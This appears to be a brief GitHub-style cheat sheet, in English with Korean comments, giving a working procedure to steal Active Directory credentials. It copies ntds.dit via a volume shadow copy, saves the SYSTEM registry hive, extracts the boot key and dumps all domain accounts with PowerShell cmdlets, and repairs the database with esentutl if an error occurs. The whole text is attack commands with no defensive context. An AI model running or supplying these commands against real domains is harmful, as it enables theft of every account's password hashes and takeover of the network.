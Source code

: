 

1.  Copy ntds.dit file
```
(cmd)

vssadmin create shadow /for=C:

copy <Shadow Copy Volume Name>\Windows\NTDS\ntds.dit C:\temp\ntds.dit
```

2. Decryption
```
(cmd)

reg SAVE HKLM\SYSTEM c:\temp\SYS ## ntds.dit, SYS 파일 복사본 획득 시 DC 이외에서도 가능

(powershell)

$Key = Get-BootKey -SystemHiveFilePath C:\temp\SYS
Get-ADDBAccount -All -BootKey $Key -DBPath C:\temp\ntds.dit
```

3. 에러 발생시 아래 커맨드 후 재시도
```
(cmd)

ESENTUTL /p C:\temp\ntds.dit /!10240 /8 /o
```